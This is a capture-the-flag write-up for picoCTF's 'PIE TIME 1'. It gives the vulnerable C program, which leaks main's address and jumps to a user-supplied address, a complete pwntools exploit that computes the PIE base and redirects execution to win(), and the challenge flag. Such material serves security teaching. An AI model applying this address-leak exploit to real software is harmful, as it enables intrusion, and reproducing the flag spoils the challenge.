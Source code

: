 # [Pwn] PIE TIME 1

## 📚 Overview

> *"Can you try to get the flag? Beware we have PIE!"*

> *"Hints - Can you figure out what changed between the address you found locally and in the server output?"*

## 💻 Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

## ⚙ Full Script

```python
from pwn import *
elf = context.binary = ELF("./vuln", checksec=False)

#p = process('./vuln')
p = remote("rescued-float.picoctf.net", 51144)

p.recvuntil(b'Address of main: ')

LEAK_ADDR = int(p.recv(14), 16)
log.info("Leak address: " + hex(LEAK_ADDR))
BASE_ADDR = LEAK_ADDR - elf.symbols.main
log.info("Base address: " + hex(BASE_ADDR))
WIN_ADDR = elf.symbols.win + BASE_ADDR
log.info("Win address: " + hex(WIN_ADDR))

p.sendlineafter(b"Enter the address to jump to, ex => 0x12345: ", hex(WIN_ADDR))
response = p.recvall(timeout=1).strip()
print(response.decode())

p.close()
```

## 🏳 Flag 

`picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_a267144a}`
